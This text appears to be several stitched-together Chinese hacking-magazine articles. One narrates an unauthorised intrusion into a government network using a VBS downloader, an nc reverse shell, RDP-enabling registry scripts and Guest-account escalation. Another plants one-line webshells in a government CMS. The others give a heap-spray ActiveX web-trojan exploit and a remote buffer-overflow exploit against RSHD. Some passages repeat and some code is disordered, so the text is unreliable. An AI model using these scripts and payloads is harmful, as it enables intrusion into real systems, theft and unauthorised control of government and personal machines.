Echo TSRegPath="HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp\PortNumber" >>port.vbs
Echo TSName=ReadComputerName.RegRead(TSRegPath) >>port.vbs
Echo WScript.Echo("TermService port is:"&TSName) >>port.vbs
Cscript port.vbs
```

依次在 NBSI 里面输入以上命令，成功执行后，结果如图 7 所示，明明终端端口是 3389 啊。忽然有个念头在我脑海里闪过，难道这就是传说中的内网机器？赶紧输入 `ipconfig -all` 查看，结果如图 8 所示，果然是内网，难怪如此！


## 陷入困境

知道了是内网的机器又该怎么办呢？思路是很简单，就是利用执行命令反弹到本地的机器上，然后利用反弹连接 3389。这种反弹连接最经典的莫过于 lcx.exe 了，下面我就来详细地讲解一下步骤。

然后利用反弹连接 3389。这种反弹连接最经典的莫过于 lcx.exe 了，下面我就来详细地讲解一下步骤。


首先上传加密版的 nc.exe 和 lcx.exe。怎么上传呢？其实 NBSI 自带有上传功能，但是我感觉太慢了，它是先把 EXE 文件转化成 VBS 格式的，上传成功后再利用 Debug 来还原，操作麻烦，我不喜欢，还是自己写一个脚本直接下载吧，脚本内容如下。

```txt
echo Set xPost = CreateObject("Microsoft.XMLHTTP")
xPost.Open "GET","http://www.bttmjx.com/nc.exe",0
xPost.Send()
Set sGet = CreateObject("ADODB.Stream")
sGet.Mode = 3
sGet.Type = 1
sGet.Open()
sGet.Write(xPost.responseBody)
sGet.SaveToFile "c:\nc.exe",2 >c:\down.vbs
```

这段代码的意思是利用 XMLHTTP 脚本来下载文件。我把 nc.exe 放到了我公司的网站上，希望大家不要来黑我公司的网站啊！直接在 NBSI 中输入，如图 9 所示，不用管这个弹出的窗口，因为是用 echo 命令来执行的，肯定不会有回显的，我们下次执行命令的时候只要把回显打上勾就可以了。成功执行命令后，再执行 `cscript down.vbs` 就能很顺利地下载 nc.exe 和 lcx.exe 了，如图 10 所示，下载成功。


图10

这个时候我们要做的事就是开启 3389 端口。Windows 2003 开启 3389 的方法很简单，并且不用重启机器。我们只要输入以下的脚本就可以了：

```txt
echo Windows Registry Editor Version 5.00 >3389.reg

echo. >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg
echo "fDenyTSConnections"=dword:00000000 >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg
echo "PortNumber"=dword:00000d3d >>3389.reg
```

然后执行 `regedit /s 3389.reg` 就 OK 了。执行的结果如图 12 所示，成功开放了 3389 端口，此时就可以用 lcx.exe 来进行终端的连接了。


图12

接下来的事情应该就简单了吧？在本地的 CMD 中输入 `nc vv l p 246`，意思是监听本地的 246 端口，然后在 NBSI 中输入 `nc e cmd.exe 本机IP 246` 就可以了。相信 nc.exe 的强大功能大家都会了，我就不多说了。端口反弹成功后，我们要做的事就是用 lcx.exe 来进行 3389 端口的连接了。

## 峰回路转

在反弹回来的 Shell 中输入一些常用的命令，确认服务器操作系统是 Windows 2003。我们在开始的时候发现这台主机开放了终端服务器，但在利用 lcx.exe 转发过程中最终确认是 3389 的端口没有开放，所以导致连接不成功，如图 11 所示。


图11

## 成功连接内网

开放 3389 以后，我们用 lcx.exe 来进行连接。先在本地输入 `C:\Documents and Settings\new\桌面>lcx -listen 51 3333`，意思就是开个 3333 端口进行准备连接，因为我的 3389 端口已经开放了。下面在服务器上执行，结果如图 13 所示，已经有反应了。我们连接本地的 3333 端口看一下，终于成功了。不过别太高兴了，我们现在还没有账号呢！打开 NBSI，直接将 Guest 账户激活，然后加入 administrators 组就可以了，如图 14 所示，我们终于成功登录 3389 了！

到了这里，接下来的事情就是进行 Cain 嗅探监视网络数据包，以便渗透其他内部机器了。Cain 就让它去运行吧，好不容易连接上，就把 X-Scan 也安装上，扫描内网看看有什么有漏洞的机器没有。结果让我大吃一惊：基本上每台机器都有漏洞，而且都是可以直接拿到系统权限的，如图 15 所示。我用 MS06-040 入侵了几台机器，用 MS SQL 弱口令也搞定了几台。到这里我就不详细地讲解了，毕竟是石家庄政府网，我可不想搞得太过分了。帮忙把网站存在的 SQL 注入漏洞补上，这样服务器就安全多了。


图13

```txt
echo [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\netcache] >>3389.reg

echo "Enabled"=10 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon] >>3389.reg

echo "ShutdownWithoutLogon"=0 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer] >>3389.reg

echo "EnableAdminTSRemote"=dword:00000001 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server] >>3389.reg

echo "TSEnabled"=dword:00000001 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermDD] >>3389.reg

echo "Start"=dword:00000002 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\TermService] >>3389.reg

echo "Start"=dword:00000002 >>3389.reg

echo [HKEY_USERS\.DEFAULT\Keyboard Layout\Toggle] >>3389.reg

echo "Hotkey"=1 >>3389.reg

echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp] >>3389.reg

echo "PortNumber"=dword:00000D3D >>3389.reg

echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp] >>3389.reg

echo "PortNumber"=dword:00000D3D >>3389.reg
```


图14


图15

最后我再啰嗦一下，如何在拿到 sa 权限或者是溢出以后开对方的 3389。网上教程很多，但我认为不是很经典。下面就给大家介绍一种经典的方法，150% 次次成功。这里我就以一个内网的 sa 弱口令来详细讲解如何开启 Windows 2000 Server 的 3389 端口。

如图 16 所示，172.16.1.4 这台机器的 3389 端口没有开放，存在 sa 弱口令漏洞，那么我们就可以在 MS SQL 弱口令利用工具中输入以下脚本：


图16

```txt
echo Windows Registry Editor Version 5.00 >3389.reg

echo. >>3389.reg
```

成功后执行 `regedit /s 3389.reg`，就成功导入到注册表里了，但是这时并没有开放 3389，因为 Windows 2000 和 Windows 2003 不一样，它需要重新启动才能开放 3389。让 Windows 2000 重启的方法很多，这里就介绍一种非常好的方法。在 SQL 连接器中直接输入以下脚本：

```txt
@ECHO OFF & cd /d "%temp%" & echo [version] > {out}.inf
(set inf=Install\InfSection DefaultInstall)
echo signature=$chicago$ >> {out}.inf
echo [defaultinstall] >> {out}.inf
rundll32 setupapi,InstallHinfSection DefaultInstall 128 %temp%\{out}.inf
```

成功后稍等 1～2 分钟以后，3389 端口就开放了。

##### 总结

善于总结的菜鸟才能提高得更快，下面我就来总结一下这次的入侵过程。

- 首先是发现了一个 SQL 的 sa 权限
- 利用 down.vbs 上传我们需要的工具
- nc.exe 反弹回一个 Shell
- 连接到对方机器上发现没有开 3389
- 利用 Windows 2003 的特殊性开 3389
- 成功连接到服务器上
- 深层次入侵内网
- 控制整个局域网

希望这篇文章能给大家在内网入侵上带来一些帮助。

适合读者：入侵爱好者

前置知识：无

#### 羽林突破：飞雨政府建站系统

上期《黑防》发表了我写的《飞雨企业漏洞》，在此感谢黑防工作人员。事后觉得那套企业建站系统拿 WebShell 比较难，如果管理员把 MD5 密码设置得强悍点，或者把 webeditor 后台地址删掉，那么我们就没辙了。于是我就想重新找个飞雨系统回来研究下，只可惜到官方网站看了看，几乎都需要付费的，所以到百度上搜了一下“飞雨系统”，结果跳出了几个“飞雨政府建站系统”。那好，既然有其他的系统，我就研究看看，于是就有了本文。

把这套系统下载回来，在本地架设好 IIS，浏览了一下界面还不错，难怪作者声称“页面比任何政府程序都要美观”。网上有人认为，美观的网站，安全系数就不怎么高，那我们就看看这套系统到底如何。总的来说，这套系统比上次研究的企业建站系统在注入攻击上安全得多，我没有发现什么文件有漏洞，几乎都被 `Numeric` 和 `checkstr` 函数无情地过滤掉了。这样对我们是很不利的，毕竟时下的攻击手段还是以注入攻击为主。看了一圈代码，最终发现注入之路走不下去了，还是再看看其他的路吧，比如上传漏洞，结果在 admin 目录下发现了 `upload.asp` 和 `upfile.asp` 文件，打开的时候全部跳转到了管理员登录页面。既然这样，我们就先看一下管理后台是什么样子。用默认的密码和账户进后台看了一下，竟然是沸腾工作室的后台，如图1所示。


图1

这个后台系统前两个月风闻爆出漏洞，可以获得 WebShell，主要是在添加文章处有一个上传图片的区域，本地只能上传 JPG、GIF、PNG 等格式图片，但在插入图片地址处可以插入 ASP 木马，然后添加文章成功后就会自动下载到本地 uploadfile 文件夹中，这样便可以轻松地拿到 WebShell 了。现在的问题是该怎么进后台，只要进后台就能搞定。带着这个问题，我又回到前台寻找漏洞。

想还是先注册个用户看看。随意注册了一个名字为 44028660、密码为 123456 的用户，登录后进入管理，进去后竟把我吓了一下，如图2所示，竟然和后台管理界面一样。我好奇地看了一下 IE 地址栏，怎么和后台地址一样呢？是不是刚才我进了后台，导致 Cookies 还存在有效，所以又进了后台。带着这个疑问我重新登录，还是一样。看来系统就是这样了。仔细地看了看界面，发现很多内容都是灰色显示的，说明我们注册的用户权限很有限。带着疑虑，点了“添加文章->选择大类”后，看到的界面和后台一致，如图3所示。


图2


图3

现在我又开始担心能不能插入图片地址，后来的事实证明完全是我多虑了，插入成功！我在“图片地址”上输入 ASP 木马的路径 `http://localhost/webshell.asp`，然后点添加程序提示成功，但是返回查看地址时候却出现了意外，提示“无权限访问或无此内容，请注册登录或联系管理员”。于是请出“WSockExpert”抓包看看，只要能上传成功，估计能抓到地址。结果令我很失望，难道没有上传成功？不可能啊，以前这个系统我遇到过，用这个方法也成功过，怎么回事呢？

点了“编辑”返回到添加页面，看见了木马地址，如图4所示，最底下的 `20056282242411.asp` 就是我们的 ASP 木马了。知道名字还不管用，必须得知道完整路径啊，既然是新闻添加，在前台找到一张图片地址后就能知道路径为 `http://localhost/feiyu/uploadfile/20056282242411.asp` 了，如图5所示，这样就得到 WebShell。

当我拿到的时候很兴奋，确实也能登录进去。我真的以为搞定了，后来上网实际测试才发现这样是不可以的……在网上登录 ASP 木马的时候，会跳转到你插入的地址。后来在“上传附件”的地方上传空格的木马，提示失败；加点则提示成功，如图6所示。

但是问题又来了，大家看看图7的 URL 地址，加后缀 ASP 就报错，找不到地址；不加后缀 ASP 木马又不能用。到这里入侵暂时就告一段落了，其实我们不用进后台，不需要破解 MD5 密码，也可以直接干脆地入侵它！因为我又找到了更简单的方法。


```asp
Server.ScriptTimeout=99999999
Response.Buffer=True
On Error Resume Next
UserPass="ahacker"
...
Sub ShowErr()
  If Err Then
    Response.Write("<a href='javascript:history.back()'>返回</a>")
  End If
End Sub
```

## 一句话秒杀

我在看源代码的时候，看到系统数据库是 ASA 格式，于是想到插一句话小马。系统提供有注册会员功能，这样我们就能利用一下。如果一句话能够成功，那么拿 WebShell 就简单多了。于是注册测试，内容如图8所示。点确定后系统提示注册成功，看起来小马插进去了，用客户端连上去结果失败了，全是乱码，如图9所示。


很郁闷的结果！我再次将数据库改成 MDB 打开一看，原来我插入的一句话都被过滤成了实体编码，很多关键字符都被过滤了。还是到源代码里看系统是怎么过滤的。先看保存用户注册信息文件 `saveuser.asp`，代码如图10所示，把一句话小马的内容几乎都过滤完了；幸好只是在用户名处过滤。

```asp
UserName=trim(request("UserName"))
if Instr(request("username"),"=")>0 _
or Instr(request("username"),"%")>0 _
or Instr(request("username"),chr(32))>0 _
or Instr(request("username"),"?")>0 _
...
Response.Write "<script>alert('对不起，您输入的用户名中包含非法字符')"
```

再看看 `adduser.asp` 文件，代码如图11所示。这次从本质上挖到一句话，想办法突破才是正道。通过 Unicode 加密小马并反复测试，发现将加密后的一句话插入到“个人照片”字段可以绕过检测，其他位置会报错。注册成功后浏览数据库地址，出现 `Microsoft VBScript 运行时错误 (0x800A000D)`、类型不匹配等信息，说明一句话执行成功。

估计还存在 Cookies 欺骗。进一步在官方演示版本中测试，成功入侵并提权，插入加密一句话后拿到 WebShell。随后发现系统还存在 IIS 目录浏览问题，且 WebShell 权限较大，可执行 CMD、查看端口等；虽然后续连接 3389 遇到“终端服务器超出最大连接”限制，但整体说明该系统安全意识较弱。

```javascript
if (document.FrmAddLink.username.value.indexOf(...) >= 0) {
  // 多个字符过滤条件
}
```

图11


图12


图13

## 二、入侵官方演示站点

至此，飞雨政府管理系统漏洞分析完毕。最后还发现后台和前台多处登录界面使用 Cookies 认证，可能仍有欺骗风险。


图14


图15

##### 总结

这次飞雨漏洞利用过程虽然思路不复杂，但排查和绕过花了不少时间。若数据库地址被修改，WebShell 获取会更困难。建议管理员及时关闭注册或修复插码点，并加强系统整体安全配置，避免对政务系统造成风险。


适合读者：入侵爱好者、溢出爱好者  
前置知识：缓冲区溢出基本原理

## 摔下 Yahoo! 的最后一滴血
### ——Yahoo Widget ActiveX 溢出漏洞利用

文/图 seer[L.S.T]&{N.N.U}

各位溢出爱好者们，看文章标题，我们又有得玩了。从 Yahoo! Messenger 那几个 ActiveX 溢出被发现开始，Yahoo! 就一直是漏洞大户。而现在，终于轮到了 Yahoo! Widget 了。

是希望你能研究下去，因为它将在你学习溢出之路上给你一次宝贵的实战机会。“机会只青睐于有准备的人”，在下一次“风暴”到来之前，你的技术是否已准备好了呢？

## 漏洞简介

为了给初学者们一个直观的认识，下面我将以 FAQ 的形式简单介绍一下这个漏洞，以及 ActiveX 溢出的一些概念。

- **Q 什么是 Yahoo! Widget？**
- **A** Yahoo! Widget 是由雅虎推出的免费并开源源码的桌面应用程序平台。Widget 引擎提供了一个 Ajax 应用程序平台，在 Windows 和 Mac OS X 环境下都可以使用。安装引擎后即可运行各类 Widget 工具（如查看股市、播放电影等）。
- **Q 漏洞出在什么地方？有何危害？**
- **A** 安装时会注册一系列 ActiveX 控件。由于程序疏忽，某些方法未对传入参数做长度检查，可能导致栈溢出。攻击者可在网页代码中调用控件并构造恶意数据，触发溢出并执行任意代码。

从今年 1 月 QQ 的 ActiveX 漏洞公开以后，此类漏洞伴随着网马生成器便如雨后春笋般出现……

具体到今天要讲的，就是 Yahoo! Widget（小于 4.05 版本）安装时注册的 YDPCTL.dll 控件的 `GetComponentVersion` 方法发生的栈溢出。

- **Q 如何知道我的电脑上是否注册了这个控件？**
- **A** 已注册的类（包括控件）会在注册表 `HKEY_CLASSES_ROOT` 下留下记录。可在注册表中搜索控件名关键字（如 yahoo），在 CLSID 子项中定位。文中给出的 ClassID 为 `7EC7B6C5-25BD-4586-A641-D2ACBB6629DD`。


图1

- **Q 如何在网页中使用 ActiveX 控件，并调用有漏洞的方法？**
- **A** 调用方法有两种，一种是直接用 `<object>` 标签：

```html
<OBJECT ID="test" CLASSID="CLSID:[控件的classID]"></OBJECT>
```

另一种是用 VBScript/JavaScript 的 `CreateObject` 方法：

```javascript
var test = new ActiveXObject("控件名");
```

这里我们使用第一种方法，代码如下。

```html
<!-- 通过ClassID调用一个YDPCTL.dll控件，在页面中的ID标识为target -->
<object classid="CLSID:7EC7B6C5-25BD-4586-A641-D2ACBB6629DD" id="target"></OBJECT>
<!-- 调用控件的GetComponentVersion方法 -->
<script>target.GetComponentVersion(buffer);</script>
```

Q：如何知道一个控件都支持哪些方法？  
A：用 VS.net 的“对象浏览器”轻松搞定，如图2所示，有兴趣的还可以 fuzz。


## 漏洞分析：通用网马编写实战

既然我们已经能够在网页中使客户端浏览器调用 YDPCTL.dll 控件了，那离做一个网马已经不远了，只要给漏洞的 `GetComponentVersion` 方法传入一个超长的参数，就可以触发这个溢出。和普通的溢出一样，你可以使用常规的覆盖返回地址，或者覆盖 SEH 的方法来执行 ShellCode。但有一个问题，不同系统的溢出点通常是不一样的，而网马最重要的就是通用性，所以常规的覆盖方法在网马中是很受局限的。

在网马中，我们通常采用一种很流行的方法——淹没 SEH + Heap Spray。简而言之，就是把大片四字节相同的地址（如 `05050505`）覆盖进缓冲区，多覆盖些也无所谓，比如覆盖 SEH 需要 1000～1050 字节（不同系统），你可以写进去 1200 字节，或者 1653 字节，或者 1987 字节，只要保证“淹没”SEH 即可。这样，即使不同系统溢出点不同，SEH 也必然会被覆盖为同样的 `05050505`。溢出发生后，程序的某些关键指针（如 EIP）被覆盖，就会进入异常处理，执行 SEH 中的地址，也就是 `05050505` 这个地址中的内容了。

而 `05050505` 这个地址里有什么呢？这是一个堆区的地址，我们在程序中动态分配的变量，都是放在堆中的。虽然 `05050505` 只是一个比较粗略的地址，但我们只要把大片的 NOP + ShellCode（长度大概 100:1，共 `100000h` 字节）放在堆区，跳进去后就有很大的概率跳进 NOP，并执行到 ShellCode 了！

那么怎么把 NOP + ShellCode 放进堆区呢？这是又一个关键问题。由于是在网马中，我们就有一个得力的帮手——JavaScript。因为 JavaScript 是在客户端，也就是浏览网页者的机器上执行的，我们就可以用 JavaScript 在浏览者的机器上预先开出大片的内存，把 NOP + ShellCode 放进去！然后就可以跳进去执行了！整个过程如图3所示，这个方法很经典，一定要在脑子里做成 Flash 记住！


事实上，只要满足以下两个条件，我们就可以使用这种方法：一是覆盖数据可以覆盖到 SEH，二是可以使用 JavaScript 等方法在目标电脑上分配内存。

这种方法不仅 ActiveX 溢出通用，ANI 网马也用过（ANI 溢出也可以覆盖到 SEH），成功率比起覆盖返回地址的那种网马还要高一些。它还有一个隐蔽的好处，可以无视 Windows XP SP2 以上版本的“堆栈不可执行保护”，因为 ShellCode 根本就没放在堆栈里。

下面我们来看看网马的代码，好吧，我承认这些代码在有些人看来已经恶俗了。用 JavaScript 在堆区分配内存的代码是现成的，以后使用的时候可以照搬。

```html
<script language="javascript">
var shellcode = unescape("%u9090...%u6460%u30a1%u0000...%u3131%u0000");
// 这里是一个自动下载http://127.0.0.1/calc.exe并执行的Shellcode，编码成Unicode形式
var payLoadSize = shellcode.length * 2;
var heapBlockSize = 0x100000;
var spraySlideSize = heapBlockSize - (payLoadSize + 0x38);
var spraySlide = unescape("%u9090%u9090");
spraySlide = getSpraySlide(spraySlide, spraySlideSize);
var heapSprayToAddress = 0x05050505;
heapBlocks = (heapSprayToAddress - 0x100000) / heapBlockSize;
// 把nop+shellcode结构的个数 memory = new Array(...)
</script>
```

```html
<script>
ray();
// 最后动态声明一个数组，这个数组中的数据将被存储在堆区
for (i=0;i<heapBlocks;i++) {
    memory[i] = spraySlide + shellcode;
}

// 按照计算好的 nop+shellcode 结构个数，循环在堆区，也就是 memory 数组，写入 nop+shellcode
function getSpraySlide(spraySlide, spraySlideSize) {
    while (spraySlide.length*2<spraySlideSize) {
        spraySlide += spraySlide;
    }
    spraySlide = spraySlide.substring(0,spraySlideSize/2);
    return spraySlide;
}
</script>
```

然后，声明一个 YDPCTL.dll 控件，调用 `GetComponentVersion` 方法，用 `05050505` 淹了它。

```html
<object classid="CLSID:7EC7B6C5-25BD-4586-A641-D2ACBB6629DD" id="target"></OBJECT>
<script>
var buffer = unescape('%u0505%u0505');
while (buffer.length<1000) buffer+=unescape('%u0505');
// 准备 1000 字节的 0x05
target.GetComponentVersion(buffer);
</script>
```

这就是网马的全部源代码，不难理解吧？执行后的效果如图4所示，你的计算器会莫名其妙地弹出来。


## 漏洞分析 II：刨根问底，定位有问题的代码

在成功利用后，你是否对这个漏洞的成因感兴趣？你又是否想体验一下研究漏洞的快感？OK，抄起你的 OllyDBG 和 IDA，我们来分析一下这个漏洞。

- 1）断点

无论是破解还是溢出分析，断点永远是必不可少的。没有断点，程序会像坐滑梯一样，“刷”一下就执行完了，计算器就弹出来了，你什么也看不到。所以，我们要想办法在溢出发生的时候把程序断下来。

这里我用了前辈们常用的方法：人为制造一次内存访问异常使程序断下。方法很简单，把网马代码中的 `while (buffer.length<1000) buffer+=unescape("%u0505");` 这行中的 `%u0505` 改成 `%uAAAA`，也就是让程序去执行 `AAAAAAAA` 这个地址的东西。由于这个地址是不可执行的，程序就会因为内存非法访问而断下来，我们就可以详细观察溢出发生时堆栈中的情况了！

用 OllyDBG 载入 IE 的主程序，按下 F9 让程序跑起来，然后用 IE 打开刚改过的网马页面。不出意外的话，如图5所示的窗口就会弹出来。程序在试图执行 `AAAAAAAA` 的时候出错。好，程序断下来了，我们观察一下如图6所示的堆栈，找到了我们的覆盖数据。


- 2）还是断点

言归正传，要想找到有问题的代码，怎么找？别忘了，正是这些有问题代码的执行，才导致了这些未经长度检查的数据被复制进堆栈。所以只要知道这些数据被复制进堆栈的时候，程序在执行什么就可以了！这里就要用到硬件写入断点。只要在覆盖数据刚被写进去的时候让程序“悬崖勒马”断下来，我们就可以观察到有问题的代码了，Follow me！

断点下在什么地方？图6中第一个 `05` 被写进去的时候就可以。首先记住第一个 `05` 在堆栈中的地址 `0013D88A`，然后在左下角的数据窗口中按下 Ctrl+G，输入“0013D88A”，这个地址就在数据窗口中被跟随了，如图7所示。


中按 `Ctrl + G`，跟随到刚才我们记住的地址 `0013D88A`。最后，载入网页页面，把它停在提示 ActiveX 是否执行的那一步。什么？你说现在就想下硬件写入断点？No! No! No! 现在的浏览器窗口并没有获得焦点，要知道浏览器窗口获得焦点的过程就要对这个地址写入数十次，触发数十次断点，而当你切回 OllyDBG、Pass 掉这些断点的时候，你的浏览器又失去焦点了……也就是说，你累死也看不到 IE 窗口的！为了避免这类惨绝人寰的事情发生，请在 ActiveX 被载入前的最后一刻再下这个断点。说具体点，在进行到图 8 所示的窗口之前不要贸然下手。


图 11


图 8

好了，图 8 的窗口出来了？下面在数据窗口的第一个数据上，也就是即将被写进 `05` 的位置上点右键，选择“断点->硬件写入->word”，如图 9 所示。这样一个硬件写入断点就下好了，之后就可以让 ActiveX 运行了。


图 9

断下来了，对吧？别急，看着 OllyDBG 的窗口标题，如图 10 所示，程序是在 `ntdll.dll` 里断下来的，而并非我们想要的 `YDPCTL.dll`，而且数据窗口中 `0013D88A` 这个位置并没有被写进 `05`，所以要继续 `F9`，大概要按几十次，要有点耐心，你会看到如图 11 所示的情形。


图 10

头两个“05”（因为刚才下的是 word）刚刚被写进去的时候断下来了，而且程序正执行在 `YDPCTL.dll` 的领空里！我们已经定位了有问题的代码！现在这是在一个字符串复制函数的里面，按几下 `F8`，执行到 `retn` 之后就可以看到关键的代码了！以下是我反汇编出的关键代码，以及一些分析。


```asm
02DB5B3F  5E              pop esi
02DB5B40  5B              pop ebx
02DB5B41  C3              retn
...
02DB5AC7  50              push eax
02DB5AC8  FF7424 08       push dword ptr [esp+8]
02DB5ACC  E8 15640000     call 02DBBEE6
02DB5AD1  663D FFFF       cmp ax, 0FFFFh
02DB5AD5  59              pop ecx
02DB5AD6  59              pop ecx
02DB5AD7  75 04           jnz short 02DB5ADD
02DB5AD9  830E FF         or dword ptr [esi], FFFFFFFFh
...
02DB5ADC  C3              retn
02DB5ADD  FF06            inc dword ptr [esi]
02DB5ADF  C3              retn
```

由以上代码可以看出，这部分代码没有检查传入参数的长度，就用一个循环将其逐字复制到了缓冲区，导致了溢出的发生。

如果我们用 IDA 打开 `YDPCTL.dll`，跟踪到 `5AC7` 这个地方（注：就是 OllyDBG 中的 `02DB5AC7` 那一行，地址的前四位 `02DB` 是 `YDPCTL.dll` 在内存中加载的基址，在 IDA 静态分析中只要找后四位就行），还可以看到这个字符串复制函数的一些细节，如图 12 所示，函数名字叫“`__putwc_lk`”。


图 12

Over！至此这个漏洞就算分析完了。最后，祝大家开学快乐！

谨以此文送给我的母校北师大实验中学，一个对我来说永远 magical 的地方。祝她 90 周年生日快乐。

- 适合读者：入侵爱好者，溢出爱好者
- 前置知识：缓冲区溢出基本原理

## Windows RSH daemon 1.7
### 远程故障排除的利剑与利刃


文／图 张东辉 夏野

RSHD（Windows RSH daemon）实际上是一个监听 514 号 TCP 端口（shell/cmd 协议端口）的多线程 RSH（Executes Command on Host）服务程序。这个软件是开源、免费的，它能够接收从客户端送来的命令，在服务端执行命令后，再把结果传递给客户端。RSHD 已经被 Windows NT Resource Kit 所收录。

Windows NT Resource Kit 是 Microsoft 为管理员提供的一套额外的工具集，包含了超过 400 个各种工具、VBS、DLL、MSC 等，涵盖了管理 TCP/IP、网络、注册表、安全、远程管理、配置、Batch 文件，以及操作系统的其他方面，可以让你更容易地管理一个 NT 系统。因此，RSHD 作为一个为数不多的 RSH 服务端程序之一，在 Windows 平台服务系统中使用是比较广泛的。另外，这个程序并没有很好地遵守 BSD 提出的关于 RSH 的协议规范，不过 NT 系统的客户端都可以很好地连接这个服务程序，其他平台的客户端很可能会连接失败。

本文提到的漏洞是关于这个服务端程序的远程溢出漏洞，也就是说可以直接利用来攻击目标主机的那种漏洞，应该说这种漏洞的攻击性是非常强的，尤其是对 Windows 服务器的攻击，影响也是很恶劣的！下面我们就一同来分析并利用这个漏洞。

##### 漏洞分析

首先我们需要对 RSHD 做一些了解，熟悉这个服务程序的安装和使用。事实上，这个程序安装和使用都是非常简单的。我们可以从下面的链接得到这个程序的源码和安装文件：`http://prdownloads.sourceforge.net/rshd/rshd-src-1.7.zip?download`。

下载后可以得到一个源码+安装文件的压缩包 `rshd-src-1.7.zip`，解压后在 `bin` 文件夹下只有一个 `rshd.exe` 文件，这个 EXE 文件就是所有源码编译生成的精华。使用这个 EXE 文件既可以安装成系统服务，又能以 standalone 模式直接运行，可以说是一举两得！

当然了，我们没有必要安装成系统服务，只是把它运行起来而已，因此使用下面的命令即可：“`rshd -d -r`”，其中“-d”表示以 standalone 模式运行，“-r”表示取消对 hosts 文件的检查。

如果想用 OllyDBG 调试这个服务程序的话，也很简单。启动 OllyDBG 后，选择“File->Open”，找到上面 `bin` 文件夹下的 `rshd.exe`，并在 Arguments 中填入“-d -r”，如图 1 所示，点击“打开”按钮，就可以进入调试状态了。这样，服务端就建好了，下面就看客户端程序是如何利用这个漏洞来远程攻击的。


图 1

### 下面是攻击程序的主要代码：

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/socket.h>
#include <netinet/in.h>
#include <netdb.h>
#include <errno.h>

#define FSIZ 1 + 1 + 1 + 1 + 1028

int main(int argc, char *argv[])
{
    unsigned char win32_bindshell[] = "...";
    char *buf;
    int *ptr;
    int i, c, sck;
    struct sockaddr_in address;
    struct hostent *hp;

    if (argc < 2) {
        printf("usage: %s address\n", argv[0]);
        exit(-1);
    }

    sck = socket(AF_INET, SOCK_STREAM, 0);
    bzero(&address, sizeof(address));
    address.sin_family = AF_INET;
    address.sin_port = htons(514);

    if (0 != bind(sck, (struct sockaddr *)&address, sizeof(struct sockaddr_in))) {
        perror("bind");
        exit(-344);
    }

    if ((address.sin_addr.s_addr = inet_addr(argv[1])) == -1) {
        if ((hp = gethostbyname(argv[1])) == NULL) {
            errno = EADDRNOTAVAIL;
            perror("(error)");
            exit(-1);
        }
        memcpy(&address.sin_addr.s_addr, hp->h_addr, 4);
    }

    if (connect(sck, (struct sockaddr *)&address, sizeof(address)) < 0) {
        /* ... */
    }
}
```

```c
perror("error");
exit(-1);

// 发送畸形数据
buf = malloc(FSIZ);
memcpy(buf, "\x00\x41\x00\x41\x00", 5);
memset(buf + 5, 0x90, 1028);   // 填充 nop
memcpy(buf + 5, win32_bindshell, sizeof(win32_bindshell) - 1);

ptr = (int*)(buf + 5 + 1024);
*ptr = 0x7c831538;  // eip 跳转地址

write(sck, buf, FSIZ);
close(sck);
sleep(1);
```

```c
if(debugFlag)
    fprintf(stderr, "[%d] stderr port: %s\n", client, buff);

// skip the stderr port
while(buff[crt++]);

// retrieve remote user name
if(!buff[crt]) {
    if(receive(rshClient, buff, blen)==SOCKET_ERROR) return;
    crt = 0;
}
if(debugFlag)
    fprintf(stderr, "[%d] Remote user name: %s\n", client, buff+crt);
if(userNameCheck(buff+crt)) return;
while(buff[crt++]);

// ignore local user name
if(!buff[crt]) {
    if(receive(rshClient, buff, blen)==SOCKET_ERROR) return;
    crt = 0;
}
if(debugFlag)
    fprintf(stderr, "[%d] Local user name: %s\n", client, buff+crt);
while(buff[crt++]);

// command to execute
if(!buff[crt]) {
    if(receive(rshClient, buff, blen)==SOCKET_ERROR) return;
    crt = 0;
}
```

这段程序主要做了两件事：一是与目标主机建立 514 号端口的连接；二是向服务端发送了一个畸形的 `buf` 字符串数据。这个畸形参数 `buf` 的内容和结构如图 2 所示。


图 2

其中为什么前 5 个字符为 `0041004100`，开始也不明白，但是一看 RSHD 的源程序就明白了，源码是这样写的：

```c
// process the input from the client and run the received command
void command(SOCKET rshClient, SOCKET& rshClientErr) {
    char buff[4096];
    int blen = sizeof(buff)-1;

    if(receive(rshClient, buff, blen)==SOCKET_ERROR) {
        terror("Cannot receive client data!", 0);
        return;
    }

    int crt = 0;
    if(buff[crt]) {
        // an additional socket will be open for stderr
    }
}
```

因此，两个“41”以及中间与两头的三个“00”，分别是用来表示“起始”“分隔”和“分隔”的；第 1 个 41 随便写，表示 Remote User Name；第 2 个 41 也是随便写，表示 Local User Name；后面的 1028 字节就是 `cmd` 了，是用来在远程服务端主机上执行的。但是，由于 RSHD 在处理 `cmd` 时存在缺陷，最后的 4 个字节会覆盖返回地址。值得一提的是，利用这个漏洞时，不能单纯依靠 `JMP ESP`、`JMP EAX`、`JMP EBX`、`JMP ECX`、`JMP EDX`、`JMP ESI`、`JMP EDI` 等，所有寄存器要么不指向栈，要么虽然指向栈，不是太靠上，就是太靠下。太靠上了，根本没法使用，因为覆盖不了上面的栈帧；太靠下了，也不好使用，可能会太接近栈空间的底部，没法给 ShellCode 留下足够的空间。——这个问题可算是个问题。但是我有信心解决这个问题，这么好的一个远程溢出类漏洞，就这么葬送了，一定要利用好。

